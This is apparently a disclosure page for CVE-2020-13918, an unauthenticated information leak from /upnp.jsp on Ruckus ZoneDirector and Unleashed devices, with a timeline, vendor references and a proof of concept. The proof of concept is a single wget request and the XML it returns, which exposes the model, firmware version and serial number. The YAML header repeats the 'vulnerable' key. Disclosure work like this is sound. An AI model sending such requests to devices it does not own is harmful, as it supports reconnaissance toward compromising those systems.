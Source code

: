 ```yaml
---
layout: vuln
credit: waveburst
timeline:
    - type: 'report'
      date: '2020-02-05'
      arg: 'Ruckus Product Security Team'
    - type: 'patch'
      date: '2020-06-15'
      url: 'https://support.ruckuswireless.com/security_bulletins/304'
    - type: 'cve-assign'
      date: '2020-06-07'
    - type: 'release'
      date: '2020-08-05'
product:
     - ' - ZoneDirector

        - Unleashed'

vulnerable:
    '- ZoneDirector: 9.9 and before

    - ZoneDirector: 9.10.x

    - ZoneDirector: 9.12.x

    - ZoneDirector: 9.13.x

    - ZoneDirector: 10.0.x

    - ZoneDirector: 10.1.x

    - ZoneDirector: 10.2.x

    - ZoneDirector: 10.3.x

    - Unleashed: 200.6 and before

    - Unleashed: 200.7'

vulnerable:
     - ' - ZoneDirector: 9.9 and before

    - ZoneDirector: 9.10.x

    - ZoneDirector: 9.12.x

    - ZoneDirector: 9.13.x

    - ZoneDirector: 10.0.x

    - ZoneDirector: 10.1.x

    - ZoneDirector: 10.2.x

    - ZoneDirector: 10.3.x

    - Unleashed: 200.6 and before

    - Unleashed: 200.7'

severity: 'low'
alephid: ALEPH-2020005
cve: CVE-2020-13918
date: '2020-06-07'
references:
    - src: 'Ruckus Networks - Security Advisory ID 20200615 - txt'
      url: 'https://www.ruckuswireless.com/security/304/view/txt'
    - src: 'Ruckus Networks - Security Advisory ID 20200615 - PDF'
      url: 'https://www.ruckuswireless.com/security/304/view/pdf'
  
title: 'Infromation leakage from /upnp.jsp'
---
```

Incorrect access control in webs in Ruckus Wireless Unleashed through 200.7.10.102.92 allows a remote attacker to leak system information (that can be used for a jailbreak) via an unauthenticated crafted HTTP request.

Information about the exploitation of this vulnerability can alos be found in our  [DEFCON 28](https://www.youtube.com/watch?v=Yt3mJlnODHU) talk.


## Proof Of Concept ##
``` xml
➜  ~ wget -q -O - 192.168.0.1/upnp.jsp
<?xml version="1.0"?>
<root xmlns="urn:schemas-upnp-org:device-1-0">
    <specVersion>
        <major>1</major>
        <minor>0</minor>
    </specVersion>
    <URLBase>http://192.168.0.1/</URLBase>
    <device>
        <deviceType>urn:schemas-upnp-org:device:InternetGatewayDevice:1</deviceType>
        <friendlyName>Ruckus-Unleashed 192.168.0.1</friendlyName>
        <manufacturer>Ruckus Wireless</manufacturer>
        <manufacturerURL>http://www.ruckuswireless.com</manufacturerURL>
        <modelDescription>Ruckus Wireless Unleashed</modelDescription>
        <modelName>R510</modelName>
        <modelNumber>200.7.10.202</modelNumber>
        <modelURL>http://www.ruckuswireless.com/</modelURL>
        <serialNumber>161902007765</serialNumber>
        <UDN>uuid:edb18e23-06c3-42ff-8c6d-</UDN>
        <UPC>unknown</UPC>
        <iconList>
            <icon>
                <mimetype>image/gif</mimetype>
                <width>32</width>
                <height>32</height>
                <depth>8</depth>
                <url>/images/upnp.gif</url>
            </icon>
        </iconList>
        <serviceList>
            <service>
                <serviceType>urn:schemas-upnp-org:service:WirelessSwitch:1</serviceType> 
                <serviceId>urn:upnp-org:serviceId:Basic1</serviceId> 
                <controlURL>/upnp/control/Basic1</controlURL> 
                <eventSubURL>/upnp/event/Basic1</eventSubURL> 
                <SCPDURL>/BasicSCPD.xml</SCPDURL> 
            </service>
        </serviceList>
        <presentationURL>https://192.168.0.1/</presentationURL>
    </device>
</root>
```